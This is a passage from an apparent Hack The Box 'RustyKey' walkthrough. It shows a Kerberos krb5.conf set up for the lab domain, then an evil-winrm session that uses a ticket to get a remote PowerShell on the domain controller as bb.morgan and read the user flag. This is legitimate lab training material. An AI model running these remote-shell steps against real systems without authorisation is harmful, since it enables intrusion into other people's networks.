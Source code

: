 We got error due to GSSAPI. I just doing those steps again and modified the `/etc/krb5.conf` file.

```bash
└─$ cat /etc/krb5.conf                                                        
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = yes
    default_tkt_enctypes = aes256-cts-hmac-sha1-96 aes128-cts-hmac-sha1-96 rc4-hmac des3-cbc-sha1
    default_tgs_enctypes = aes256-cts-hmac-sha1-96 aes128-cts-hmac-sha1-96 rc4-hmac des3-cbc-sha1
    permitted_enctypes = aes256-cts-hmac-sha1-96 aes128-cts-hmac-sha1-96 rc4-hmac des3-cbc-sha1

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

Just in case of supported encryption types.

> Remmeber to `sudo rdate -n` and `klist` to make sure the time is sync and our ticket is the right one.

```powershell
└─$ evil-winrm -i dc.rustykey.htb -u bb.morgan -r rustykey.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> type user.txt
6377177a0406b0bf0e2b107786184d78
```

Able to access `bb.morgan` user and grab the `user.txt` flag.

## Initial Access
### Discovery
```powershell
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> dir


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---        6/30/2025   9:23 AM             34 user.txt
```
